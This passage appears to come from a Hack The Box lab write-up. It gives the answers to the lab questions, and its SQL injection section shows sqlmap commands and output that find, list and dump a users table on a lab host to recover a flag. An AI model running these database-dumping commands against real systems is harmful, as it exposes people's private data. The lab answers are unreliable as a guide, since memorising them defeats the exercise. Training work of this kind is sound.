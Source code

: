 **Answer:** `WebServices`

### Question 2:
![](./attachments/Pasted%20image%2020220727112542.png)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap 10.129.12.225:3003/?id=1 --current-db
(...)
[06:32:39] [INFO] fetching current database
current database: 'htb'

┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap 10.129.12.225:3003/?id=1 --tables -D htb 
(...)
[06:32:43] [INFO] fetching tables for database: 'htb'
Database: htb
[1 table]
+-------+
| users |
+-------+

┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap 10.129.12.225:3003/?id=1 --dump -T users -D htb
(...)
[06:32:48] [INFO] fetching entries for table 'users' in database 'htb'
Database: htb
Table: users
[4 entries]
+---------+--------------------------------+------------+
| id      | username                       | position   |
+---------+--------------------------------+------------+
| 1       | admin                          | 1          |
| 2       | HTB-User-John                  | 2          |
| 3       | WebServices                    | 3          |
| 8374932 | HTB{THE_FL4G_FOR_SQLI_IS_H3RE} | 736373     |
+---------+--------------------------------+------------+
```

**Answer:** `HTB{THE_FL4G_FOR_SQLI_IS_H3RE}`

---
## Arbitrary File Upload
### Question:
![](./attachments/Pasted%20image%2020220727112611.png)
